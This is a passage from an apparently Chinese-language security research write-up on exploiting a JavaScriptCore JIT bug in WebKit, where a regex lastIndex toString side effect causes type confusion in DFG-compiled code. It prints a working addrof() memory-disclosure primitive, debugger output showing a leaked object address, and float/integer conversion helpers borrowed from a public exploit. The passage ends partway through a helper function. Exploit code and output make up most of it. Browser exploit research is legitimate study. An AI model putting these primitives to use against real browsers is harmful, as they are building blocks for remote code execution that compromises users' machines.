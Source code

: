 但是我实际测试过程中我把`funcToJIT()`的调用次数调到3670，就只是有几率触发DFG，所以还是把调用次数调大一点比较稳，但也不能太大，调用次数过多就会进入FTL。



## 0x02 Exploit

POC中通过传入设定好的double值成功伪造了一个指针，其实用相反的手法我们是可以做到泄漏对象地址的。我们可以先在数组中放入对象指针，然后以double的形式将指针打印出来，构造出来的`addrof()`原语如下：

```
function addrof(obj)`{`
    var victim_array = [1.1];
    var reg = /abc/y;

    var funcToJIT = function(array)`{`
        'abc'.match(reg);
        return array[0];
    `}`

    for(var i=0; i&lt; 10000; i++)`{`
        funcToJIT(victim_array);
    `}`

    regexLastIndex = `{``}`;
    regexLastIndex.toString = function()`{`
        victim_array[0] = obj;
        return "0";
    `}`;
    reg.lastIndex = regexLastIndex;

    return funcToJIT(victim_array)
`}`
```

可以观察到，我这里在`funcToJIT()`加了一个参数，因为我发现不加这个参数直接操作`victim_array`的话似乎出现了两个`victim_array`，最后返回给我的是没有修改值的那个，加上参数就可解决这个问题，原因尚不清楚。

使用这个函数并传入一个对象，就会返回这个对象的地址：

```
(lldb) run -i ../bug_191731/test/poc.js
There is a running process, kill it and restart?: [Y/n] y
Process 39404 launched: '/Users/7o8v/Documents/SecResearch/Browser/WebKit/WebKit.git/WebKitBuild/Debug/bin/jsc' (x86_64)
2.1938450464e-314
&gt;&gt;&gt;
```

但是返回的是double的形式，我没找到JavaScript有啥格式化比较方便的方法，最后看niklasb大佬的exp发现可以用`ArrayBuffer`解决，代码如下：

```
var buffer = new ArrayBuffer(8);
var u8 = new Uint8Array(buffer);
var u32 = new Uint32Array(buffer);
var f64 = new Float64Array(buffer);
var BASE = 0x100000000;
function i2f(i) `{`
    u32[0] = i%BASE;
    u32[1] = i/BASE;
    return f64[0];
`}`
function f2i(f) `{`
    f64[0] = f;
    return u32[0] + BASE*u32[1];
`}`
function hex(x) `{`
    if (x &lt; 0)
        return `-$`{`hex(-x)`}``;
```